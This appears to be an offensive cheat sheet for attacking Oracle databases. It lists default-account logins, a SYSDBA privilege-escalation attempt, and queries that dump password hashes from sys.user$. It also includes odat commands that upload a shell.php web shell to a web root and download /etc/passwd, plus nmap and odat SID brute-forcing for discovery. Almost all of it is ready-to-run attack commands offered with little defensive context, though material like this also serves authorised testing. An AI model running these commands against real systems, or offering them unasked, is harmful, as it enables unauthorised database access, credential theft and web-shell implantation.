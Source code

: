 
## Common Vulnerabilities

### Default Credentials
```bash
# VULNERABILITY: Default Oracle accounts
sqlplus system/manager@target:1521/XE
sqlplus scott/tiger@target:1521/XE
sqlplus hr/hr@target:1521/XE

# VULNERABILITY: Default DBSNMP account
sqlplus dbsnmp/dbsnmp@target:1521/XE
```

### Privilege Escalation
```sql
-- VULNERABILITY: SYSDBA access with regular account
sqlplus scott/tiger@target:1521/XE as sysdba

-- Check if successful escalation
SELECT * FROM user_role_privs;
-- Result shows SYS privileges instead of SCOTT
```

### Information Disclosure
```sql
-- VULNERABILITY: Access to sensitive system tables
SELECT * FROM dba_users;
SELECT name, password FROM sys.user$;

-- VULNERABILITY: Database configuration exposure
SELECT * FROM v$parameter;
```

### File System Access
```bash
# VULNERABILITY: File upload capabilities
./odat.py utlfile -s target -d XE -U scott -P tiger --putFile /var/www/html shell.php ./shell.php

# VULNERABILITY: File download capabilities
./odat.py utlfile -s target -d XE -U scott -P tiger --getFile /etc/passwd passwd.txt
```

---

## Quick Reference Commands

### Discovery
```bash
nmap -p 1521 --script=oracle-sid-brute target
./odat.py sidguesser -s target
sqlplus system/manager@target:1521/XE
```
